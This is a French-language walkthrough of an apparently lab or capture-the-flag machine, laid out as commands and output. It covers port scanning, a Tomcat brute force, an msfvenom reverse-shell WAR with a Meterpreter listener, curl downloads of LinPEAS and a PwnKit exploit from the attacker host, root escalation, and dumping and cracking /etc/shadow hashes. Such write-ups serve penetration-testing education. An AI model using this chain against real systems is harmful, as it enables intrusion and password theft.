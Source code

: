 1.  <ins>Énumération</ins>

👁️ **Massap**

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $sudo sh massap.sh
Entrer une IP: 192.168.56.29
Entrer un rate: 1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-13 18:15:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 19:18 CET           
NSE: Loaded 150 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:18
Completed NSE at 19:18, 10.02s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating ARP Ping Scan at 19:18
Scanning 192.168.56.29 [1 port]
Completed ARP Ping Scan at 19:18, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:18
Completed Parallel DNS resolution of 1 host. at 19:18, 0.00s elapsed
Initiating SYN Stealth Scan at 19:18
Scanning 192.168.56.29 [2 ports]
Discovered open port 22/tcp on 192.168.56.29
Discovered open port 8080/tcp on 192.168.56.29
```

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - tomcat**

Brute force avec une wordlist d’utilisateur et mot de passe par défaut

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run

[+] 192.168.56.29:8080 - Login Successful: tomcat:role1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> 
```

&nbsp;

<ins>2.Exploitation</ins>

**<span style="color: #dddddd;"><span style="color: #dddddd;">👻</span></span> MSFvenom**

Création d’un `reverse shell` en java

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f war > revshelll.war
Payload size: 6214 bytes
Final size of war file: 6214 bytes
```

&nbsp;

**💥 Metasploit - meterpreter**

Ecoute du port `4444` pour obtenir le revershell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (58037 bytes) to 192.168.56.29
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.29:60090) at 2025-01-13 19:59:11 +0100

(Meterpreter 1)(/) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Téléchargement depuis ma machine le script `bash`

```
(Meterpreter 1)(/) > cd /tmp
(Meterpreter 1)(/tmp) > shell
Process 3 created.
Channel 5 created.
bash -i
tomcat@miletus:/tmp$
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  38.5M      0 --:--:-- --:--:-- --:--:-- 38.5M
```

&nbsp;

Exploit potentiel d’élévation de privilège

```
tomcat@miletus:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit PwnKit**

Test de l’exploit

```
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/PwnKit
curl -O 192.168.56.104:8181/PwnKit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 18040  100 18040    0     0  1601k      0 --:--:-- --:--:-- --:--:-- 1601k
tomcat@miletus:/tmp$ ./PwnKit
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),999(tomcat)
bash -i
root@miletus:/tmp# 
```

&nbsp;

Dump des hash utilisateur du fichier `shadow`

```
root@miletus:/tmp# cat /etc/shadow
cat /etc/shadow
root:$1$root$QBgvNQo1oG6uBsRhpHVcF0:18854:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18854:0:99999:7:::
thales:$6$Y9smI36b$guxECvhWSBfjNVrX4s6GmgZEUOWZ.jNJBcn6j2aera6OgzX87IfNz9Fz1auf3tUzylJrrw4nHt5vEQwGRMYG0/:18855:0:99999:7:::
tomcat:!:18854::::::
```

&nbsp;

**🧨 JohnTheRipper**

Crack du hash de l’user `thales` & `root`

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (thales)     
1g 0:00:12:58 DONE (2025-01-13 21:21) 0.001284g/s 3673p/s 3673c/s 3673C/s voezz..vodiensex
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --show thales
thales:vodka06:18855:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 6.22% (ETA: 21:27:20) 0g/s 237808p/s 237808c/s 237808C/s belatz..beckiere
ghost2000        (root)     
1g 0:00:00:30 DONE (2025-01-13 21:26) 0.03293g/s 255481p/s 255481c/s 255481C/s ghostgfb..ghorazz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --show
root:ghost2000:18854:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Cred trouver

| User | Password |
| --- | --- |
| thales | vodka06 |
| root | ghost2000 |
